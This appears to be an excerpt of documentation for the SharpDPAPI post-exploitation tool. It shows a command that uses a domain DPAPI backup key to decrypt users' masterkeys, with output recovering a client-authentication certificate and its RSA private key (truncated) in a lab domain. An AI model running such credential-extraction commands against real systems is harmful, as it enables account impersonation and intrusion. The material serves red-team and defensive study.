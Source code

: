        [*] Private key file 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered:

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA0WDgv/jH5HuATtPgQSBie5t...(snip)...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIFujCCBKKgAwIBAgITVQAAAJf6yKyhm5SBVwA...(snip)...
    -----END CERTIFICATE-----


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe certificates /pvk:HvG1sAAAAAABAAAAAAAAAAAAAACU...(snip)...
      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.10.0


    [*] Action: Certificate Triage
    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!


    [*] User master key cache:

    {dab90445-0a08-4b27-9110-b75d4a7894d0}:C23AF7432EB51371...(snip)...



    Folder       : C:\Users\harmj0y\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-937929760-3187473010-80948926-1104

      File               : 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

        Provider GUID    : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
        Master Key GUID  : {dab90445-0a08-4b27-9110-b75d4a7894d0}
        Description      : CryptoAPI Private Key
        algCrypt         : CALG_3DES (keyLen 192)
        algHash          : CALG_SHA (32772)
        Salt             : ef98458bca7135fe1bb89b3715180ae6
        HMAC             : 5c3c3da2a4f6548a0186c22f86d7bc85
        Unique Name      : te-UserMod-8c8e0236-76ca-4a36-b4d5-24eaf3c3e1da

        Thumbprint       : 98A03BC583861DCC19045758C0E0C05162091B6C
        Issuer           : CN=theshire-DC-CA, DC=theshire, DC=local
        Subject          : CN=harmj0y
        Valid Date       : 2/22/2021 2:19:02 PM
        Expiry Date      : 2/22/2022 2:19:02 PM
        Enhanced Key Usages:
            Client Authentication (1.3.6.1.5.5.7.3.2)
             [!] Certificate is used for client auth!
            Secure Email (1.3.6.1.5.5.7.3.4)
            Encrypting File System (1.3.6.1.4.1.311.10.3.4)

        [*] Private key file 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered:
